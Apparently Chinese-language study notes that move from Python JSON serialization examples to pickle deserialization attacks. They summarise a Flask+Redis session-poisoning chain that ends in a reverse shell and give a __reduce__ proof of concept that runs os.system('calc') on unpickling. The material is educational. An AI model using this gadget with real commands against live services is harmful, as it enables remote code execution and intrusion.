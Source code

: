 ~~~PYTHON
none_data = None
json_none_data = json.dumps(none_data)
# 打印输反序列化JSON数据以及其类型
print(dict_data, type(dict_data))
print(list_data, type(list_data))
print(tuple_data, type(tuple_data))
print(int_data, type(int_data))
print(float_data, type(float_data))
print(bool_data, type(bool_data))
print(none_data, type(none_data))
# 反序列化JSON数据
dict_data_2 = json.loads(json_dict_data)
list_data_2 = json.loads(json_list_data)
tuple_data_2 = json.loads(json_tuple_data)
int_data_2 = json.loads(json_int_data)
float_data_2 = json.loads(json_float_data)
bool_data_2 = json.loads(json_bool_data)
none_data_2 = json.loads(json_none_data)
# 打印输出反序列化JSON数据以及其类型
print(dict_data_2, type(dict_data_2))
print(list_data_2, type(list_data_2))
print(tuple_data_2, type(tuple_data_2))
print(int_data_2, type(int_data_2))
print(float_data_2, type(float_data_2))
print(bool_data_2, type(bool_data_2))
print(none_data_2, type(none_data_2))
~~~



可以看P神的这篇文章：

https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

在P神的文章里，对方是flask + redis，通过修改redis里存放session的字符串为一个反弹shell的序列化字符串

~~~
session： e6c36e69a9cf9543243d7921aa1a3d8093b49441 = 序列化的字符串
~~~

然后将cookie设置成`session_id=e6c36e69a9cf9543243d7921aa1a3d8093b49441`

刷新页面，触发了session的反序列化->执行了__ reduce __ 魔术方法->从而反弹shell

~~~python
import os
import pickle

class A:
    def __reduce__(self):
        s = "calc"
        return (os.system, (s,))

e = A()
s = pickle.dumps(e)
print(s, type(s))
haha = pickle.loads(s)
~~~
